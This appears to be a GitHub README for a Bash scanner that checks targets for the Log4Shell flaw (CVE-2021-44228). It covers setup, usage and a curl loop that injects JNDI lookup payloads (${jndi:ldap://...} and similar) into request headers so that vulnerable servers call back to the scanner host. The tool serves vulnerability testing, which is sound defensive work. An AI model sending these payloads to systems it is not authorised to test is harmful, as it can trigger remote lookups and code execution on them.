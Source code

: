 # log4jScanner

 log4jScanner.sh is a BASH script to confirm the vulnerability (CVE-2021-44228) of a given IP/URL.
 This script validates the return traffic on 4 protocols ldap | ldaps | rmi | dns 
 The testing methedology is completely noninvasive. 
 
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that scanner-port is reachable to the target. 
[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
 
```
## Download the script
```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner's-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]

```
## For testing multiple IP/URLs, please feel free to modify the script accordingly.
```bash
FOR loop example: 
for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


